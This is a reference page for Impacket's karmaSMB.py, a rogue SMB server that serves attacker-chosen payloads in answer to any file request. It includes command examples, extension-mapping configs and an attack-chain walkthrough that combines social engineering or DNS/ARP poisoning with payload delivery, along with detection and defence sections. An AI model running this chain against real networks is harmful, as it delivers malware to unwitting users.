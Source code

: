 # karmaSMB.py

## Overview
`karmaSMB.py` is a malicious SMB server tool in the Impacket suite. This tool is categorized under Attack Infrastructure and provides functionality for serving malicious files to any SMB client request regardless of the requested path or filename.

## Detailed Description
KarmaSMB creates a rogue SMB server that will answer any file read request with predefined contents based on file extensions, regardless of the actual sharename or path requested. This makes it extremely useful for payload delivery attacks where you want to serve malicious files to any client that connects.

### Key Features:
- **Universal File Serving**: Serves the same file content for any path/filename requested
- **Extension-based Mapping**: Can serve different files based on requested file extensions
- **SMB1 and SMB2 Support**: Compatible with both SMB protocol versions
- **Configurable Responses**: Uses config files to map extensions to specific files
- **Stealth Operation**: Disguises malicious payloads as legitimate file requests

### Technical Details:
- Implements a malicious SMB server using Impacket's SMB server framework
- Intercepts SMB file read requests and substitutes malicious content
- Supports custom configuration files for extension-to-file mapping
- Works by overriding the normal file serving mechanism in SMB
- Particularly effective for social engineering and payload delivery attacks

## Command Line Options

```
usage: karmaSMB.py [--help] [-config pathname] [-smb2support] [-ts] [-debug] fileName

Required Arguments:
  fileName              Default file contents to serve for all SMB requests

Optional Arguments:
  --help                Show help message and exit
  -config               Config file to map file extensions to specific files
  -smb2support          Enable experimental SMB2 support
  -ts                   Add timestamps to logging output
  -debug                Enable debug output
```

## Usage Examples

### Basic Usage
```bash
# Serve a malicious executable for any file request
python3 karmaSMB.py /path/to/malicious.exe

# Serve a specific file with debug output
python3 karmaSMB.py /tmp/payload.bat -debug

# Enable SMB2 support (experimental)
python3 karmaSMB.py /tmp/malware.exe -smb2support
```

### Advanced Usage with Config File
```bash
# Create config file for extension mapping
echo "exe = /tmp/malicious.exe" > karma.conf
echo "bat = /tmp/malicious.bat" >> karma.conf
echo "doc = /tmp/malicious.doc" >> karma.conf

# Run karmaSMB with extension mapping
python3 karmaSMB.py /tmp/default.txt -config karma.conf

# Run with timestamps and debug
python3 karmaSMB.py /tmp/payload.exe -config karma.conf -ts -debug
```

## Attack Chain Integration

### Social Engineering Payload Delivery
```bash
# Step 1: Create extension-specific config file
echo "exe = /tmp/payload.exe" > karma.conf
echo "bat = /tmp/payload.bat" >> karma.conf  
echo "pdf = /tmp/malicious.pdf" >> karma.conf

# Step 2: Start karmaSMB server
python3 karmaSMB.py /tmp/default.txt -config karma.conf -smb2support -ts

# Step 3: Social engineer targets to access network share
# Target tries to access \\your-server\share\important.exe
# They receive /tmp/payload.exe regardless of what they requested
```

### Network Redirection Attack
```bash
# Step 1: Set up karmaSMB to serve malicious payload
python3 karmaSMB.py /tmp/malicious.exe -config karma.conf -smb2support

# Step 2: Use network poisoning to redirect legitimate requests
# Configure DNS poisoning or ARP spoofing to redirect SMB requests

# Step 3: Any SMB file request will receive the malicious payload
# Target accesses \\server\share\document.docx but receives malicious.exe instead
```

## Prerequisites
- Malicious payload files prepared for delivery
- Network positioning to receive SMB connections
- Understanding of SMB protocol and file serving mechanisms
- Knowledge of target environment and expected file types
- Ability to social engineer or redirect targets to the malicious server

## Detection Considerations
- **Event IDs**: 5140 (Network share accessed), 5145 (Network share checked for access), SMB audit events
- **Network Indicators**: Rogue SMB server responses, unusual SMB traffic patterns
- **Process Indicators**: Unauthorized SMB server processes running on network
- **File Indicators**: Malicious files being served from unexpected locations
- **Registry Indicators**: No direct registry modifications

## Defensive Measures
- Implement network monitoring to detect rogue SMB servers
- Use network access control (NAC) to prevent unauthorized SMB services
- Deploy endpoint detection and response (EDR) tools to identify malicious SMB activity
- Educate users about risks of accessing unknown network shares
- Implement application whitelisting to prevent execution of unknown files

## Common Issues and Troubleshooting

### SMB2 Cache Issues
```bash
# Problem: SMB2 clients may cache directory listings causing issues with multiple requests
# Solution: SMB1 works more reliably, or wait for client cache to clear
python3 karmaSMB.py /tmp/payload.exe -debug
```

### File Access Permissions
```bash
# Problem: Cannot read the file specified for serving
# Solution: Ensure the file exists and is readable
ls -la /tmp/payload.exe
python3 karmaSMB.py /tmp/payload.exe -debug
```

## Related Tools
- [smbserver.py](smbserver.md) - Legitimate SMB server implementation
- [ntlmrelayx.py](ntlmrelayx.md) - NTLM relay attacks, often used in combination
- [responder.py](https://github.com/lgandx/Responder) - Network poisoning tool for credential capture
- [psexec.py](psexec.md) - Lateral movement after credential capture
- [smbclient.py](smbclient.md) - SMB client for testing connections
